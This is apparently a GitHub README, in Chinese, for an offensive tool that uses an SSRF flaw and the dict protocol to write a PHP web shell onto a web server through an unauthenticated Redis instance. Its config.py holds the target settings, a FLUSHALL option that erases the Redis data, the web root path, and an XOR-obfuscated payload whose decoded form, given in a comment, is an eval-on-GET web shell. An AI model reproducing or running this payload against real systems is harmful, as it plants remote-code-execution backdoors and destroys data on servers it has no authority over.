


## dict写shell工具 ##
适用于ssrf进行redis-getshell时使用(web write shell)  
前提条件:
* 没有Authentication

config.py
```python
#dict writeshell
SSRFURL="http://127.0.0.1/ssrf.php?url=" #SSRFURL
RHOST="192.168.113.145" #Redis Server
RPORT=6379 #Redis Port
FLUSHALL="yes" #Flushall setting (yes/no)
bgsaveerror="no"
XORKEY="@@@@@@@@@@@@@@@@@@@@@@"
RWEBPORT=80
DIRPATH="/var/www/html/"
SHELLNAME="test.php"
SHELL=r"|\x7f}%6!,hd\x1f\a\x05\x14\x1byqq\x1di{\x7f~" #<?=eval($_GET[911]);?>
```




参考链接:[SSRF打Redis规避坏字符](https://hosch3n.github.io/2020/09/25/SSRF%E6%89%93Redis%E8%A7%84%E9%81%BF%E5%9D%8F%E5%AD%97%E7%AC%A6/#%E4%B8%BB%E4%BB%8E%E5%90%8C%E6%AD%A5%E6%96%87%E4%BB%B6)